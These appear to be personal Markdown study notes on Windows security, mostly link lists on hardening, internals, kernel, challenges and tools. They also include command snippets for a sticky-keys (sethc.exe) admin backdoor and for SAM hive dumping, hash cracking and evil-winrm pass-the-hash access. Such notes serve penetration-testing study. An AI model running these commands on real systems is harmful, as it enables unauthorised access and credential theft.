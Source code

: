 ## Documentation

- https://github.com/0x6d69636b/windows_hardening
- https://cyber.gouv.fr/publications/mise-en-oeuvre-des-fonctionnalites-de-securite-de-windows-10-reposant-sur-la

### Internals

- [Windows Internals CTF](https://samsclass.info/126/WI2021.htm)
- https://github.com/Faran-17/Windows-Internals
- https://learn.microsoft.com/en-us/windows/win32/secauthn/lsa-authentication
- https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters

### Kernel

- http://ntoskrnl.org/ # description os + win internals
- https://www.vergiliusproject.com/ # documentation de tous les kernel win
- https://empyreal96.github.io/nt-info-depot/index.html
- https://0xpat.github.io/Malware_development_part_1/
- https://itm4n.github.io/

![https://github.com/uvsq-versailles/Master2_SeCReTS_Semestre2/tree/master/SEC403A/COURS](./images/win_internals.png)


## Challenges

- https://tryhackme.com/module/windows-fundamentals
- https://www.root-me.org/en/Challenges/App-System/

## Outils

- https://ss64.com/ps/
- [powershell cheatsheet](https://gist.github.com/pcgeek86/336e08d1a09e3dd1a8f0a30a9fe61c8a)
- [WinPwn - Local and Domain recon](https://github.com/S3cur3Th1sSh1t/WinPwn)
- https://learn.microsoft.com/fr-fr/sysinternals/downloads
- https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/getting-started-with-windbg/

#### WSL2 - Manage Storage

- https://stephenreescarter.net/how-to-shrink-a-wsl2-virtual-disk/

#### WinAPI

- https://caiorss.github.io/C-Cpp-Notes/WindowsAPI-cpp.html

### Change password (unlocked bios)

- https://maggick.fr/pages/lost-windows-password.html

```powershell
# boot linux
mount /dev/sdax /mnt
cp /mnt/Windows/System32/sethc.exe /mnt/Windows/System32/sethc_old.exe
cp /mnt/Windows/system32/cmd.exe /mnt/Windows/System32/sethc.exe

# boot windows + press shift 5 times
net user new_user new_password /add
net localgroup Administrators new_user /add
net user new_user /delete /f
```

### Crack password (persistent access)

- https://www.hackingarticles.in/credential-dumping-local-security-authority-lsalsass-exe/

```powershell
# /System32/config
reg save HKLM\sam ./sam.save
reg save HKLM\system ./system.save

impacket-secretsdump -sam sam.save -system system.save LOCAL #paste dump hashes in hashes.txt

hashcat -m 1000 hashes.txt wordlist.txt
evil-winrm -i <ip> -u <user> -p <passwd>
evil-winrm -i <ip> -u <user> -H <hash>
```

### Delete file

**Reecriture 5 fois**

```powershell
Sdelete64.exe /p 5 "c:\users\user\file.txt"
```

### Drivers

```powershell
# Activate Kernel Memory Isolation
pnputil /enum-drivers
pnputil /delete-driver oemXX.inf /force
```

## Windows internals

- https://repo.zenk-security.com/Linux%20et%20systemes%20d.exploitations/Windows%20Internals%20Part%201_6th%20Edition.pdf
- https://repo.zenk-security.com/Linux%20et%20systemes%20d.exploitations/Windows%20Internals%20Part%202_6th%20Edition.pdf
- https://repo.zenk-security.com/Linux%20et%20systemes%20d.exploitations/Windows%20Kernel%20Architecture%20Internals.pdf

### AD - Potato - Local Privesc

See also [../active_directory](../active_directory)

- https://jlajara.gitlab.io/Potatoes_Windows_Privesc

### EDR

- https://virtualsamuraii.github.io/redteam/anatomie-des-edr-pt-1/


